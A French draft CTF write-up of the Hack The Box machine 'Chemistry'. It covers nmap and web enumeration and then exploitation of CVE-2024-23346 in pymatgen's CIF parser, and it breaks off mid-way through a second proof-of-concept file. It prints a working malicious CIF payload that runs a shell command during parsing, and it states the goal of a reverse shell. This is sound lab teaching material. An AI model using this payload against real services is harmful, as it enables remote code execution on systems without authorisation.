






---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Chemistry — HTB Easy Writeup & Walkthrough"
linkTitle: "Chemistry"
slug: "chemistry"
date: 2026-02-13T15:09:07+01:00
#lastmod: 2026-02-13T15:09:07+01:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Writeup générique de machine CTF : documentation de la phase d'énumération, exploitation du foothold, escalade de privilèges et capture des flags. Sert de modèle structuré pour rédiger les solutions détaillées"
description: "Writeup HTB Easy combinant approche pédagogique et analyse technique, avec énumération claire, compréhension de la vulnérabilité et progression structurée jusqu’à l’escalade."
tags: ["Easy"]
categories: ["Mes writeups"]

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Chemistry"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Chemistry"
  difficulty: "Easy | Medium | Hard"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Chemistry> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

- Contexte (source, thème, objectif).
- Hypothèses initiales (services attendus, techno probable).
- Objectifs : obtenir `user.txt` puis `root.txt`.

---

## Énumérations

Dans un challenge **CTF Hack The Box**, tu commences **toujours** par une phase d’**énumération complète**.
C’est une étape incontournable : elle te permet d’identifier clairement ce que la machine expose avant toute tentative d’exploitation.

Concrètement, tu cherches à savoir quels **ports** sont ouverts, quels **services** sont accessibles, si une **application web** est présente, quels **répertoires** sont exposés et si des **sous-domaines ou vhosts** peuvent être exploités.

Pour réaliser cette énumération de manière structurée et reproductible, tu peux t’appuyer sur trois scripts :

- **** : identifie les ports ouverts et les services en écoute
- **** : énumère les répertoires et fichiers accessibles via le service web
- **** : détecte la présence éventuelle de sous-domaines et de vhosts

Tu retrouves ces outils dans la section **[Outils / Mes scripts](mes-scripts/)**.
Pour garantir des résultats pertinents en contexte **CTF HTB**, tu utilises une **wordlist dédiée**, installée au préalable grâce au script ****.
Cette wordlist est conçue pour couvrir les technologies couramment rencontrées sur Hack The Box.

------

Avant de lancer les scans, vérifie que chemistry.htb résout bien vers la cible. Sur HTB, ça passe généralement par une entrée dans /etc/hosts.

- Ajoute l’entrée `10.129.x.x chemistry.htb` dans `/etc/hosts`.

```bash
sudo nano /etc/hosts
```

- Lance ensuite le script  pour obtenir une vue claire des ports et services exposés :

```bash
mon-nmap chemistry.htb

# Résultats dans le répertoire scans_nmap/
#  - scans_nmap/full_tcp_scan.txt
#  - scans_nmap/enum_ftp_smb_scan.txt
#  - scans_nmap/aggressive_vuln_scan.txt
#  - scans_nmap/cms_vuln_scan.txt
#  - scans_nmap/udp_vuln_scan.txt
```


### Scan initial

Le scan initial TCP complet (`scans_nmap/full_tcp_scan.txt`) te révèle les ports ouverts suivants :

> Note : les IP et timestamps peuvent varier selon les resets HTB ; l’important ici est la surface exposée.

```bash
# Nmap 7.98 scan initiated Fri Feb 13 15:17:38 2026 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt chemistry.htb
Nmap scan report for chemistry.htb (10.129.231.170)
Host is up (0.016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

# Nmap done at Fri Feb 13 15:17:45 2026 -- 1 IP address (1 host up) scanned in 6.45 seconds
```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :
- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats de cette énumération sont enregistrés dans le fichier `scans_nmap/enum_ftp_smb_scan.txt`

```bash
# mon-nmap — ENUM FTP / SMB
# Target : chemistry.htb
# Date   : 2026-02-13T15:17:45+01:00

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,5000
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Voici le résultat (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour chemistry.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,5000" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "chemistry.htb"

# Nmap 7.98 scan initiated Fri Feb 13 15:17:45 2026 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,5000 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt chemistry.htb
Nmap scan report for chemistry.htb (10.129.231.170)
Host is up (0.015s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   55.40 ms 10.10.16.1
2   8.06 ms  chemistry.htb (10.129.231.170)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 13 15:17:59 2026 -- 1 IP address (1 host up) scanned in 14.46 seconds

```


### Scan ciblé CMS

Vient ensuite le scan ciblé CMS (`scans_nmap/cms_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Fri Feb 13 15:17:59 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,5000 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt chemistry.htb
Nmap scan report for chemistry.htb (10.129.231.170)
Host is up (0.0086s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-headers: 
|   Server: Werkzeug/3.0.3 Python/3.9.5
|   Date: Fri, 13 Feb 2026 14:18:08 GMT
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 719
|   Vary: Cookie
|   Connection: close
|   
|_  (Request type: HEAD)
|_http-title: Chemistry - Home
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 3
|     /static/
|       css: 1
|   Longest directory structure:
|     Depth: 1
|     Dir: /static/
|   Total files found (by extension):
|_    Other: 3; css: 1
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 13 15:18:37 2026 -- 1 IP address (1 host up) scanned in 37.70 seconds

```


### Scan UDP rapide

Le scan UDP rapide (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Fri Feb 13 15:18:37 2026 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt chemistry.htb
Nmap scan report for chemistry.htb (10.129.231.170)
Host is up (0.0089s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   closed        route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  open|filtered upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown

# Nmap done at Fri Feb 13 15:18:46 2026 -- 1 IP address (1 host up) scanned in 8.72 seconds
```


### Énumération des chemins web avec `mon-recoweb`
Pour la découverte des chemins web, tu utilises le script dédié 

```bash
mon-recoweb chemistry.htb:5000

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier RESULTS_SUMMARY.txt te permet alors d’identifier rapidement les chemins réellement intéressants, sans avoir à parcourir l’ensemble des logs générés par les outils.


```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.1

Cible        : chemistry.htb:5000
Périmètre    : /
Date début   : 2026-02-13 15:43:29

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://chemistry.htb:5000/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/chemistry.htb_5000/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://chemistry.htb:5000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/chemistry.htb_5000/ffuf_dirs.json 2>&1 | tee scans_recoweb/chemistry.htb_5000/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://chemistry.htb:5000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/chemistry.htb_5000/ffuf_files.json 2>&1 | tee scans_recoweb/chemistry.htb_5000/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://chemistry.htb:5000/dashboard (CODE:302|SIZE:235)
http://chemistry.htb:5000/dashboard/ (CODE:302|SIZE:235)
http://chemistry.htb:5000/login (CODE:200|SIZE:926)
http://chemistry.htb:5000/login/ (CODE:200|SIZE:926)
http://chemistry.htb:5000/logout (CODE:302|SIZE:229)
http://chemistry.htb:5000/logout/ (CODE:302|SIZE:229)
http://chemistry.htb:5000/register (CODE:200|SIZE:931)
http://chemistry.htb:5000/register/ (CODE:200|SIZE:931)
http://chemistry.htb:5000/upload (CODE:405|SIZE:153)
http://chemistry.htb:5000/upload/ (CODE:405|SIZE:153)

=== Détails par outil ===

[DIRB]
http://chemistry.htb:5000/dashboard (CODE:302|SIZE:235)
http://chemistry.htb:5000/login (CODE:200|SIZE:926)
http://chemistry.htb:5000/logout (CODE:302|SIZE:229)
http://chemistry.htb:5000/register (CODE:200|SIZE:931)
http://chemistry.htb:5000/upload (CODE:405|SIZE:153)

[FFUF — DIRECTORIES]
http://chemistry.htb:5000/dashboard/ (CODE:302|SIZE:235)
http://chemistry.htb:5000/login/ (CODE:200|SIZE:926)
http://chemistry.htb:5000/logout/ (CODE:302|SIZE:229)
http://chemistry.htb:5000/register/ (CODE:200|SIZE:931)
http://chemistry.htb:5000/upload/ (CODE:405|SIZE:153)

[FFUF — FILES]

```


### Recherche de vhosts avec `mon-subdomains`

Enfin, teste rapidement la présence de vhosts  avec  le script 

```bash
mon-subdomains chemistry.htb

# Résultats dans le répertoire scans_subdomains/
#  - scans_subdomains/scan_vhosts.txt
```

Si aucun vhost distinct n’est détecté, ce fichier te permet malgré tout de confirmer que le fuzzing n’a rien révélé d’exploitable.

```bash
=== mon-subdomains chemistry.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : 2026-02-13 15:46:16
Domaine      : chemistry.htb
IP           : 10.129.231.170
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 5000 (http)
  Baseline#1: code=200 size=719 words=61 (Host=miukiyzqvi.chemistry.htb)
  Baseline#2: code=200 size=719 words=61 (Host=gk929ntl9i.chemistry.htb)
  Baseline#3: code=200 size=719 words=61 (Host=bp735xlkvi.chemistry.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains chemistry.htb END ===
```


## Exploitation – Prise pied (Foothold)

Les énumérations n’ont révélé qu’une surface d’attaque très limitée :

```
22/tcp   open  ssh
5000/tcp open  http
```

Pas de CMS détecté.
Pas de service UDP exploitable.
Pas de sous-domaines.

Autrement dit, aucun vecteur évident côté réseau.

La seule cible réellement exploitable est donc l’application web locale accessible sur chemistry.htb:5000.

Tu te concentres donc entièrement sur cette application, qui constitue désormais ton unique point d’entrée.




Traduction :

> Bienvenue sur le Chemistry CIF Analyzer.
>  Cet outil te permet d’uploader un fichier CIF (Crystallographic Information File) et d’analyser les données structurelles qu’il contient.

Un fichier **CIF** (Crystallographic Information File) est un format utilisé en chimie et en cristallographie pour décrire la structure atomique d’un matériau (coordonnées, paramètres de maille, symétrie, etc.).

Autrement dit, l’application :

1. Attend un fichier `.cif`
2. L’analyse côté serveur
3. Affiche les données structurelles extraites

En explorant manuellement l’interface web, tu retrouves clairement un mécanisme structuré autour de :

- **register**
- **login**
- **upload**
- **view**

Le fonctionnement est simple :

 tu crées un compte



tu t’authentifies

 tu uploades un fichier CIF

> Le site fournit d’ailleurs un fichier **exemple.cif**, destiné à démontrer le fonctionnement du mécanisme d’upload et d’affichage.



puis tu peux le visualiser



et tu vois les données contenues dans le fichier CIF



Cela confirme que les fichiers CIF sont bien traités côté serveur lors du *view*.

En contexte CTF, un schéma upload → view est toujours un point d’attention.

**Le véritable enjeu n’est pas l’upload lui-même, mais le traitement du fichier lors du view.**  
Si l’application parse ou interprète le contenu du CIF à ce moment-là, en concevant un fichier malveillant, tu peux tenter de déclencher un comportement imprévu côté serveur.

**La stratégie devient alors claire : détourner ce mécanisme de traitement pour provoquer une exécution de code… et, idéalement, obtenir un reverse shell.**


### Hypothèse sur le parseur utilisé

Avant de créer un fichier malveillant, tu dois comprendre **comment le fichier est traité côté serveur**.

Une recherche ciblée montre que le parser CIF le plus utilisé et le plus robuste en Python — notamment en science des matériaux — est :

> ```
> pymatgen.io.cif.CifParser
> ```

La bibliothèque **pymatgen** est largement répandue pour la manipulation et l’analyse de structures cristallines en Python.

Il est donc raisonnable de supposer que l’application chemistry.htb s’appuie sur **pymatgen** pour parser les fichiers CIF lors du *view*.

Si c’est le cas, toute vulnérabilité affectant ce parser pourrait être exploitable via un fichier CIF spécialement conçu.

La suite consiste donc à rechercher d’éventuelles vulnérabilités connues sur pymatgen.


------

### Recherche de vulnérabilités connues sur pymatgen

À partir de cette hypothèse, la démarche est simple et classique :

```
pymatgen cif parser exploit
pymatgen RCE
pymatgen CVE
```

Rapidement, une vulnérabilité critique ressort :

**CVE-2024-23346 – Pymatgen 2024.1 – Remote Code Execution (RCE)**

Cette CVE décrit une faille permettant l’exécution de code arbitraire via un fichier CIF spécialement conçu.

Cela correspond parfaitement au mécanisme *upload → view* observé sur la machine.

------

### Analyse du Proof of Concept (PoC)

En analysant le PoC, tu constates que [la vulnérabilité repose sur une injection dans une section spécifique du fichier CIF](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f).

Le parser évalue dynamiquement certaines données du fichier, permettant l’exécution de code lors du parsing.

Le point clé est donc :

> Le payload est exécuté au moment du parsing du fichier, **c’est-à-dire lors du view.**

Tu confirmes ainsi que le vecteur n’est pas l’upload en lui-même, mais bien le traitement du fichier.

Le PoC présenté dans l’article repose sur l’injection d’une transformation malveillante dans un fichier `vuln.cif`, visant à exécuter une commande de test — en l’occurrence `touch pwned`, qui crée un fichier sur le système — afin de démontrer l’exécution de code lors du parsing.

```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Après l’upload et le *view* de `vuln.cif`, l’application retourne une **erreur 500 – Internal Server Error**.
 Ce comportement est cohérent avec une exception déclenchée pendant l’analyse du fichier, ce qui suggère que le parser a bien atteint la zone vulnérable.

Cependant, sans accès au système de fichiers, il est impossible de vérifier directement l’effet de la commande exécutée.

 Il est donc préférable que tu utilises une commande produisant un effet réseau visible depuis ta machine, par exemple en générant du trafic sortant vers ton interface `tun0` avec un `ping -c 5 <ip tun0>`.

Tu peux ensuite vérifier la réception de ce trafic côté Kali à l’aide de `sudo tcpdump -ni tun0 icmp`, ce qui te permettra de confirmer l’exécution de code de manière indirecte.

Crée un fichier poc-ping.cif

```bash
nano poc-ping.cif
```


```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

